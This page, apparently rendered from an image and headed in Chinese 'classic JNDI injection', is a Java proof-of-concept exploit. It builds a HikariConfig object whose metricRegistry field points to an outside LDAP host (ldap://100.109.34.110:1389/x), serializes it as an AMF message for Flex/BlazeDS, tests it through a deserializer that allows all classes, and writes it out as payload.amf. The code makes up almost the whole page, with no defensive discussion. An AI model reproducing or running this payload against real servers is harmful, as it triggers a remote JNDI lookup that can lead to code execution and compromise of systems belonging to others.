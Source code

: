 经典的 JNDI 注入

```plain
package com.example;

import com.zaxxer.hikari.HikariConfig;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.*;
import flex.messaging.validators.ClassDeserializationValidator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Demo {
    public static void main(String[] args) throws Exception {

        HikariConfig config = new HikariConfig();
        Field f = HikariConfig.class.getDeclaredField("metricRegistry");
        f.setAccessible(true);
        f.set(config, "ldap://100.109.34.110:1389/x");

        byte[] data = serialize(config);
        deserialize(data);
        Files.write(Paths.get("/Users/exp10it/payload.amf"), data);
    }

    public static byte[] serialize(Object data) throws Exception {
        MessageBody body = new MessageBody();
        body.setData(data);
        ActionMessage message = new ActionMessage();
        message.addBody(body);
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);
        return out.toByteArray();
    }

    public static ActionMessage deserialize(byte[] amf) throws Exception {
        ByteArrayInputStream in = new ByteArrayInputStream(amf);
        AmfMessageDeserializer deserializer = new AmfMessageDeserializer();
        SerializationContext context = SerializationContext.getSerializationContext();
        ClassDeserializationValidator validator = new ClassDeserializationValidator();
        validator.addAllowClassPattern(".*");
        context.setDeserializationValidator(validator);
        deserializer.initialize(context, in, null);
        ActionMessage actionMessage = new ActionMessage();
        deserializer.readMessage(actionMessage, new ActionContext());
        return actionMessage;
    }
}
```
